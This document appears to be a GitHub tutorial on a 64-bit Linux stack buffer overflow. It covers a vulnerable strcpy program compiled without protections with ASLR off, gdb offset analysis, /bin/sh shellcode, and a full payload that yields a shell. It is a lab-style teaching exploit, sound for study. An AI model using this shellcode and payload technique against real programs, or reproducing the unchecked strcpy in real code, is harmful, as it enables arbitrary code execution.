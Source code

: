 # Stack based buffer overflow on 64 bit linux 

Let's consider this simple C code named buf.c.

```c
#include<stdio.h>
#include<string.h>
int main(int argc, char *argv[])
{
char buf[100];
strcpy(buf,argv[1]);
printf("Input was: %s\n",buf);
return 0;
}
```

### Compile
```bash
gcc -fno-stack-protector -z execstack buf.c -o buf
```
### ASLR
```bash
sudo nano /proc/sys/kernel/randomize_va_space
```
and set value to '0'.

### Test
```bash
user9747@ubuntu:~$ ./buf Hello
Input was: Hello
```

## Disassemble the Code
```bash
user9747@ubuntu:~/Desktop/bof$ gdb -q buf
Reading symbols from buf...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000001145 <+0>:	push   rbp
   0x0000000000001146 <+1>:	mov    rbp,rsp
   0x0000000000001149 <+4>:	add    rsp,0xffffffffffffff80
   0x000000000000114d <+8>:	mov    DWORD PTR [rbp-0x74],edi
   0x0000000000001150 <+11>:	mov    QWORD PTR [rbp-0x80],rsi
   0x0000000000001154 <+15>:	mov    rax,QWORD PTR [rbp-0x80]
   0x0000000000001158 <+19>:	add    rax,0x8
   0x000000000000115c <+23>:	mov    rdx,QWORD PTR [rax]
   0x000000000000115f <+26>:	lea    rax,[rbp-0x70]
   0x0000000000001163 <+30>:	mov    rsi,rdx
   0x0000000000001166 <+33>:	mov    rdi,rax
   0x0000000000001169 <+36>:	call   0x1030 <strcpy@plt>
   0x000000000000116e <+41>:	lea    rax,[rbp-0x70]
   0x0000000000001172 <+45>:	mov    rsi,rax
   0x0000000000001175 <+48>:	lea    rdi,[rip+0xe88]        # 0x2004
   0x000000000000117c <+55>:	mov    eax,0x0
   0x0000000000001181 <+60>:	call   0x1040 <printf@plt>
   0x0000000000001186 <+65>:	mov    eax,0x0
   0x000000000000118b <+70>:	leave  
   0x000000000000118c <+71>:	ret    
End of assembler dump.
(gdb) 
```
## Stack and Virtual Addressing
![alt text](https://github.com/user9747/Buffer-Overflow-Shell-Code/blob/master/stack.png "Stack")

strcpy copies all bytes from source to destination buffer without checking the space available. If the source is larger than the space available then it will overwrite the further memory addresses including rbp and return pointer. Recall that when the function is executed the return pointer is stored on stack to return the control to next instruction after execution. Basically it contains the address for the next instruction. It means we control the contents of stack and also we can overwrite rbp and return pointer and as return pointer points to next instruction we can make cpu execute any instruction just by replacing return pointer with correct address. As we control stack we can load our instructions there and just make return address, point to it.

*We can see in disassembly that buf starts at [rbp-0x70] that is 112 bytes. The 12 bytes is alignment space here.*

**buf=100 bytes alignment=12 bytes rbp=8 bytes 6 bytes into return address. Total 126**

```bash
(gdb) r $(python -c "print 'A'*126")
Starting program: /home/ubuntu/Desktop/bof/buf $(python -c "print 'A'*126")
Input was: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
```

```bash
(gdb) info registers 
rax            0x0	0
rbx            0x0	0
rcx            0x7fffff76	2147483510
rdx            0x7ffff7dd3780	140737351858048
rsi            0x1	1
rdi            0x1	1
rbp            0x4141414141414141	0x4141414141414141
rsp            0x7fffffffde70	0x7fffffffde70
r8             0x0	0
r9             0x8a	138
r10            0x7e	126
r11            0x246	582
r12            0x555555555060	93824992235616
r13            0x7fffffffdf40	140737488346944
r14            0x0	0
r15            0x0	0
rip            0x414141414141	0x414141414141
eflags         0x10206	[ PF IF RF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
```
## Shellcode
```bash
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```
## Making the exploit

**payload = 'A'*76 + shellcode + 'A'*12 + 'B'*8 + return_address**

### Finding return address
```bash
(gdb) r $(python -c "print 'A'*76+'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'+'A'*12+'B'*8+'C'*6")
Starting program: /home/virtual/buf $(python -c "print 'A'*76+'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'+'A'*12+'B'*8+'C'*6")
Input was: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAPH1�H1�H�/bin//shST_�;AAAAAAAAAAAABBBBBBBBCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x0000434343434343 in ?? ()
```

Dump memory from rsp(stack pointer)
```bash
(gdb) x/100x $rsp-200
0x7fffffffdda8:	0x555551f0	0x00005555	0x41414141	0x41414141
0x7fffffffddb8:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffddc8:	0xf7ffe168	0x00007fff	0x00000001	0x00000000
0x7fffffffddd8:	0x55555186	0x00005555	0xffffdf48	0x00007fff
0x7fffffffdde8:	0x00000000	0x00000002	0x41414141	0x41414141
0x7fffffffddf8:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffde08:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffde18:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffde28:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffde38:	0x41414141=>0xd2314850	0x48f63148	0x69622fbb
0x7fffffffde48:	0x732f2f6e	0x5f545368	0x050f3bb0	0x41414141
0x7fffffffde58:	0x41414141	0x41414141	0x42424242	0x42424242
0x7fffffffde68:	0x43434343	0x00004343	0xffffdf48	0x00007fff
0x7fffffffde78:	0xffffdf48	0x00007fff	0xf7b995c8	0x00000002
0x7fffffffde88:	0x55555145	0x00005555	0x00000000	0x00000000
0x7fffffffde98:	0x9fe9f648	0x4fb90a6c	0x55555060	0x00005555
0x7fffffffdea8:	0xffffdf40	0x00007fff	0x00000000	0x00000000
0x7fffffffdeb8:	0x00000000	0x00000000	0x8029f648	0x1aec5f39
0x7fffffffdec8:	0x9319f648	0x1aec4f83	0x00000000	0x00000000
0x7fffffffded8:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdee8:	0xffffdf60	0x00007fff	0xf7ffe168	0x00007fff
0x7fffffffdef8:	0xf7de77cb	0x00007fff	0x00000000	0x00000000
0x7fffffffdf08:	0x00000000	0x00000000	0x55555060	0x00005555
0x7fffffffdf18:	0xffffdf40	0x00007fff	0x00000000	0x00000000
0x7fffffffdf28:	0x5555508a	0x00005555	0xffffdf38	0x00007fff
(gdb)
```
return address = 0x7fffffffde3c

Device is little endian so address should be reversed in the exploit.
```bash
(gdb) r $(python -c "print 'A'*76+'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'+'A'*12+'B'*8+'\x3c\xde\xff\xff\xff\x7f'")
Starting program: /home/ubuntu/Desktop/bof/buf $(python -c "print 'A'*76+'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'+'A'*12+'B'*8+'\x3c\xde\xff\xff\xff\x7f'")
Input was: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAPH1�H1�H�/bin//shST_�;AAAAAAAAAAAABBBBBBBB<����
process 3572 is executing new program: /bin/dash
$ ls
a.out  buf  buf.c  buf_shell  buf_shell.c  hack.py  howto  invoke  r.sh  test  test.c
$ whoami
ubuntu
$ pwd
/home/ubuntu/Desktop/bof
$ id
uid=999(ubuntu) gid=999(ubuntu) groups=999(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ 
```
### Running Exploit outside gdb
```bash
user9747@ubuntu:~/Desktop/bof$ /home/ubuntu/Desktop/bof/buf $(python -c "print 'A'*76+'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'+'A'*12+'B'*8+'\x3c\xde\xff\xff\xff\x7f'")
Input was: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAPH1�H1�H�/bin//shST_�;AAAAAAAAAAAABBBBBBBB<����
$ id
uid=999(ubuntu) gid=999(ubuntu) groups=999(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ whoami 
ubuntu
$ 
```

That's it Folks we got our shell!





